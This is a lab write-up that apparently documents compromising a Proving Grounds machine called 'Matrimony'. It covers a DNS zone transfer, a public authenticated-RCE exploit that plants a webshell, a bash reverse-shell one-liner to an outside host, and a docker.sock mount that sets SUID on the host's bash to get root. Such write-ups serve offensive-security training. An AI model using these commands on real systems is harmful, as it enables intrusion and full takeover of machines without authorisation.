 # Matrimony

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.201.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 14:46 +08
Nmap scan report for 192.168.201.196
Host is up (0.17s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
53/tcp    open     domain
80/tcp    open     http
```

DNS is open, so we likely need to find a domain name somewhere.

### DNS Enum

Port 80 just shows us a static site:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

There wasn't anything interesting about this site, so I went back to DNS. Similar to HTB, some machines from PGP tend to have domain names we just enter into our `/etc/hosts` file. I entered a few like `matrimony.pg`, `matrimony.offsec` and `matrimony.off`.

Then, I tested each domain with `dig` to see which exists. `matrimony.off` reveals the most information:

```
$ dig axfr @192.168.201.196 matrimony.off

; <<>> DiG 9.18.12-1-Debian <<>> axfr @192.168.201.196 matrimony.off
; (1 server found)
;; global options: +cmd
matrimony.off.          604800  IN      SOA     matrimony.off. root.matrimony.off. 4 604800 86400 2419200 604800
matrimony.off.          604800  IN      NS      matrimony.off.
matrimony.off.          604800  IN      A       127.0.0.1
matrimony.off.          604800  IN      AAAA    ::1
prod99.matrimony.off.   604800  IN      CNAME   matrimony.off.
matrimony.off.          604800  IN      SOA     matrimony.off. root.matrimony.off. 4 604800 86400 2419200 604800
;; Query time: 164 msec
;; SERVER: 192.168.201.196#53(192.168.201.196) (TCP)
;; WHEN: Sat Jul 15 14:53:15 +08 2023
;; XFR size: 6 records (messages 1, bytes 226)
```

It also finds another subdomain at `prod99`.&#x20;

### Matrimonial Website --> RCE

The `prod99` domain shows us this marriage website:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

I created an account on the website and found that it runs on PHP. I checked around for exploits for 'matrim':

```
$ searchsploit matrim
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
2DayBiz Matrimonial Script - 'smartresult.php' SQL Injecti | php/webapps/14073.txt
2DayBiz Matrimonial Script - SQL Injection                 | php/webapps/14008.txt
2DayBiz Matrimonial Script - SQL Injection / Cross-Site Sc | php/webapps/14047.txt
Advanced Matrimonial Script 2.0.3 - SQL Injection          | php/webapps/41521.txt
Entrepreneur Matrimonial Script - Authentication Bypass    | php/webapps/41046.txt
Hindu Matrimonial Script - Authentication Bypass           | php/webapps/41044.txt
i-Net Solution Matrimonial Script 2.0.3 - 'alert.php' Cros | php/webapps/34252.txt
Matri4Web Matrimony Website Script - Multiple SQL Injectio | php/webapps/46591.txt
Matrimonial Script - SQL Injection                         | php/webapps/42545.txt
Matrimonial Script 2.7 - Authentication Bypass             | php/webapps/42566.txt
Matrimonial Website Script 1.0.2 - SQL Injection           | php/webapps/40416.txt
Matrimonial Website Script 2.1.6 - 'uid' SQL Injection     | php/webapps/43965.txt
Matrimony Script - Cross-Site Request Forgery              | php/webapps/10517.txt
Matrimony Script 2.7 - SQL Injection                       | php/webapps/42496.txt
Multireligion Responsive Matrimonial 4.7.2 - 'succid' SQL  | php/webapps/43299.txt
Multireligion Responsive Matrimonial Script 4.7.1 - SQL In | php/webapps/41530.txt
Muslim Matrimonial Script 3.02 - 'succid' SQL Injection    | php/webapps/43310.txt
Online Matrimonial Project 1.0 - Authenticated Remote Code | php/webapps/49183.py
PHP Matrimonial Script 3.0 - SQL Injection                 | php/webapps/41525.txt
Responsive Matrimonial Script 4.0.1 - SQL Injection        | php/webapps/41533.txt
Zeeways Matrimony CMS - SQL Injection                      | php/webapps/46603.txt
----------------------------------------------------------- ---------------------------------
```

Tons of exploits, and there is one script out of all of them. I tried that first, and it worked:

```
$ python2 49183.py http://prod99.matrimony.off/ test123 test123
___  ___              _  _          _      ______  _____  _____
|  \/  |             (_)| |        | |     | ___ \/  __ \|  ___|                             
| .  . |  __ _  _ __  _ | |_  __ _ | |     | |_/ /| /  \/| |__                               
| |\/| | / _` || '__|| || __|/ _` || |     |    / | |    |  __|                              
| |  | || (_| || |   | || |_| (_| || |     | |\ \ | \__/\| |___                              
\_|  |_/ \__,_||_|   |_| \__|\__,_||_|     \_| \_| \____/\____/                              
                                                                                             
[+] logging...                                                                               
[+] Successfully retrieved user [ID].
[+] Successfully uploaded.
[+] Connecting to webshell...
[+] Successfully connected to webshell.
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam)
```

From here, we can easily get a reverse shell:

```
$ bash -c 'bash -i >& /dev/tcp/192.168.45.189/21 0>&1'
```

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Docker.Sock --> Root

If we check `ifconfig`, we can find some Docker instanceis running since the IP of this machine is 172.17.0.1:

```
sam@matrimony:/home/sam$ ifconfig                                                            
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500                                
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255                       
        ether 02:42:58:23:b6:06  txqueuelen 0  (Ethernet)
        RX packets 19  bytes 4172 (4.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 19  bytes 4427 (4.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

We can `ssh` into 172.17.0.2 as `root`:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We can find the `docker.sock` file in both machines:

```
root@9079b6b2d2fb:/tmp# find / -name docker.sock 2>/dev/null
/run/docker.sock
```

This machine doesn't have `docker`, so we can download the binary itself from our machine. This takes a while. When it's done, we can check the images present:

```
root@9079b6b2d2fb:/tmp# ./docker images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
<none>       <none>    73aebf20ceb1   14 months ago   223MB
ubuntu       latest    3f4714ee068a   14 months ago   77.8MB
```

We can mount back onto the first image:

```
./docker -H unix:///run/docker.sock run -it -v /:/mnt 73aebf20ceb1 bash
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

To get a `root` shell, simply run `chmod u+s /mnt/bin/bash`. Exit the docker container back onto the host machine and run `bash -p`:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
